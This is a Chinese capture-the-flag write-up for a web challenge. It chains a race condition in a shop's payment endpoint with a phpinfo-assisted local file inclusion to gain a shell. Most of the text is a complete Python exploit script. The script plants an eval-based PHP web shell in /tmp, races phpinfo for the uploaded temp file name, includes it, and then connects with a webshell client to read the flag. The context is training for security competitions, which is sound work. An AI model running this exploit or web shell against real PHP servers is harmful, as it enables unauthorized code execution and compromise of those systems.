


# Writeup(529) #
## 解题步骤 ##
首先我们注册一个账号，发现提示需要购买5次商品就会得到一个hit。但是5次购买需要1500积分但是我们只有1000。而且每次邀请人注册也只可以的到100积分，也就是说最多的到1300积分。
但是我们在单个结账的界面也就是`/pay`目录可以发现购买的时候会有大约1s的明显的延迟。
所以说我们可以尝试条件竞争。
但是在这里我们需要使用多个session进行条件竞争，于是我们先给要用账号添加200积分，再购买3次，然后在打开两个不同的浏览器进行条件竞争。


可以看到我们的两次操作都成功的购买到了商品，积分也变成了`-300`，也出现了提示。
那我们尝试访问这两个页面可以看到一个是`文件包含`另一个是`phpinfo`但是这个phpinfo需要填对验证码才可以输出出来。
通过文件包含和phpinfo我们可以想到通过包含上传到phpinfo生成的临时文件从而执行我们的php代码。
这里给出exp:
```python
# -*- coding: UTF-8 -*-
#需要将captcha文件放在exp文件的上一目录下
import sys
import threading
import socket
import random

from pyquery import PyQuery as PQ
import requests

def usage():
	print("Usage: copy.py host port poolsize system(0|1)")
	print("Exaple for windows: copy.py host 127.0.0.1 80 100 0 ")
	print("Exaple for linux: copy.py host 127.0.0.1 80 100 1 ")
	exit()

def setup(host,port):
	tag = "upload finish!"  # 完成的标志
	
	payload = """<?php $c=fopen('/tmp/shell','w');fwrite($c,'<?php @eval($_POST["caidao"]);?>');echo "upload finish!";?>\r"""
	
	infodata = "-"*29+"""114782935826962\r
Content-Disposition: form-data; name="file"; filename="test.html"\r
Content-Type: text/html\r
\r
%s
"""%(payload)+"-"*29+"""114782935826962--\r"""
	
	padding = "A"*5000  #填充的字符串 使phpinfo处理文件的时间增加
	
	inforeq="""POST /daa7b9743fc5f/d624ee33c0de4a46e1e/?a="""+padding+""" HTTP/1.1\r
Cookie:PHPSESSID=8jd8gpopsu2mbp36p4ni0ms1s6; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary="""+"-"*27+"""114782935826962\r
Content-Length: 498\r
Host: %s\r
%s""" %(host,infodata)
	# 关于boundary在http中是有一定规律的，在http包中的‘-’比http头中的要多两位。
	lfireq = """GET /daa7b9743fc5f/a13963a2e27dd80a770/index/?file=%s HTTP/1.1\r\nHost: %s\r\nUser-Agent: Mozilla/5.0\r\nProxy-Connection: Keep-Alive\r\n\r\n"""
	return (tag,inforeq,lfireq)


answerdata = """\r
\r
"""+"-"*29+"""114782935826962\r
Content-Disposition: form-data; name="captcha_x"\r
\r
%s\r
"""+"-"*29+"""114782935826962\r
Content-Disposition: form-data; name="captcha_y"\r
\r
%s\r"""


def get_answer(url):
	cookie = dict(PHPSESSID="8jd8gpopsu2mbp36p4ni0ms1s6")
	s = requests.get(url, cookies=cookie)
	dom = PQ(s.text)
	s.close()
	uuid = dom('form canvas').attr('rel')
	answer = {}
	with open('../captcha/ans/ans%s.txt' % uuid, 'r') as f:
		for line in f.readlines():
			if line != '\n':
				ans = line.strip().split('=')
				answer[ans[0].strip()] = ans[1].strip()
	x = random.randint(int(float(answer['ans_pos_x_1'])), int(float(answer['ans_width_x_1']) + float(answer['ans_pos_x_1'])))
	y = random.randint(int(float(answer['ans_pos_y_1'])), int(float(answer['ans_height_y_1']) + float(answer['ans_pos_y_1'])))
	if(99<x<999 and 99<y<999):
		pass
	else:
		x,y = get_answer(url)
	return x,y


def phpinfolfi(host, port, inforeq, offset, is_linux, lfireq, tag):
	captcha_x,captcha_y = get_answer("http://%s/daa7b9743fc5f/d624ee33c0de4a46e1e"%host)
	inforeq = inforeq[0:inforeq.index("Host:")+6+len(host)]+answerdata%(captcha_x,captcha_y)+inforeq[inforeq.index("Host:")+6+len(host):]
	
	s_info = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
	s_lfi = socket.socket(socket.AF_INET, socket.SOCK_STREAM)   

	s_info.connect((host,port))
	s_lfi.connect((host,port))  #先建立lfi的三次握手
	
	s_info.send(inforeq)
	data = ""
	while len(data) < offset:
		data += s_info.recv(offset)
	i = data.index("[tmp_name] =&gt; ") 
	if(is_linux==1):
		fn = data[i+17:i+31] #linux 下获取到文件的路径
	else:
		fn = data[i+17:i+40] #windows 下获取到文件的路径
	s_lfi.send(lfireq%(fn,host))
	d = s_lfi.recv(4096)
	s_info.close()
	s_lfi.close()
	if tag in d:
		return fn


def getoffest(host, port, inforeq):
	captcha_x,captcha_y = get_answer("http://%s/daa7b9743fc5f/d624ee33c0de4a46e1e"%host)
	inforeq = inforeq[0:inforeq.index("Host:")+6+len(host)]+answerdata%(captcha_x,captcha_y)+inforeq[inforeq.index("Host:")+6+len(host):]
	with open("http.txt","wb") as tx:
			tx.write(inforeq)
			tx.close()
	s_info = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s_info.connect((host,port))
	s_info.send(inforeq)
	data = ""
	while True:
		i = s_info.recv(4096)
		data+=i        
		if i == "":
			break
		# detect the final chunk
		if i.endswith("0\r\n\r\n"):
			break
	try:
		with open("response.html","wb") as ht:
			ht.write(data)
			ht.close()
		i = data.index("[tmp_name] =&gt; ")
	except ValueError:
		print "no tmp_name found in phpinfo"
		usage()
	print "found %s at %i" % (data[i:i+10],i)
	# padded up a bit
	return i+256

counter=0
class threadwork(threading.Thread):
	def __init__(self, e, l, m, *args):
		threading.Thread.__init__(self)
		self.event = e
		self.lock = l
		self.maxattempts = m
		self.arg = args
	def run(self):
		global counter
		while not self.event.is_set():  
			with self.lock:
				if counter<self.maxattempts:
					counter+=1 #计数一共maxattempts次
				else:
					return
			try:
				x = phpinfolfi(*self.arg)
				if self.event.is_set():
					break                
				if x:
					print "\nGot it! Shell created in /tmp/shell"
					self.event.set()
					
			except socket.error:
				return

def main():
	print "LFI With PHPInfo()"
	print "-=" * 30
	if(len(sys.argv)) < 5:
		usage()
	try:
		host = socket.gethostbyname(sys.argv[1])
	except socket.gaierror,e:
		print "%s host not found"%sys.argv
		exit()

	try:
		port = int(sys.argv[2])
	except ValueError,e:
		print "port errot"
		exit()
	try:
		poolsize = int(sys.argv[3])
	except ValueError,e:
		print "poolsize errror"
		exit()
	try:
		is_linux = int(sys.argv[4])
	except ValueError,e:
		print "system error"
		exit()
	
	tag,inforeq,lfireq = setup(host,port)
	
	print "Getting initial offset...",
	offset = getoffest(host, port, inforeq)
	sys.stdout.flush()

	print "Spawning worker pool (%d)..." % poolsize
	maxattempts = 1000
	e = threading.Event()
	l = threading.Lock()
	sys.stdout.flush()

	tp = []   #线程池
	for i in range(0,poolsize):
		tp.append(threadwork(e,l,maxattempts, host, port, inforeq, offset, is_linux, lfireq, tag))

	for t in tp:
		t.start()

	try:
		while not e.wait(1):
			if e.is_set():
				break
			with l:
				sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
				sys.stdout.flush()
				if counter >= maxattempts:
					break
		if e.is_set():
			print "Good job!"
		else:
			print ":("
	except KeyboardInterrupt:
		print "\nTelling threads to shutdown..."
		e.set()
	
	print "Shuttin' down..."
	for t in tp:
		t.join()


if __name__=="__main__":
	main()
```
思路是我们先对通过request得到验证码的文件，然后再提交验证码和上传的文件，这里上传的时候选择的是用socket发包可以节省时间，而且再发包之前就建立好对phpinfo的和lfi的三次握手从而减少时间，在收包的时候也只接收到tmpfile位置，通过多次竞争，从而getshell。

最后访问`daa7b9743fc5f/a13963a2e27dd80a770/?file=/tmp/shell`菜刀连接。
即可在getflag。直接访问/app/F13g_hhhhhhhhhhh/目录就可以看到flag

## 设计思路 ##
利用支付功能可能出现的漏洞，对pay功能进行了sleep操作，导致可以条件竞争，出现支付漏洞。  
然后利用phpinfo的包含漏洞，进一步getshell
## 创新性 ##

## 考察技能点 ##
条件竞争。
lfi加phpinfo的利用。
## 考察思维点 ##
发现出现延迟之后可以想到条件竞争。
以及phpinfo文件包含漏洞。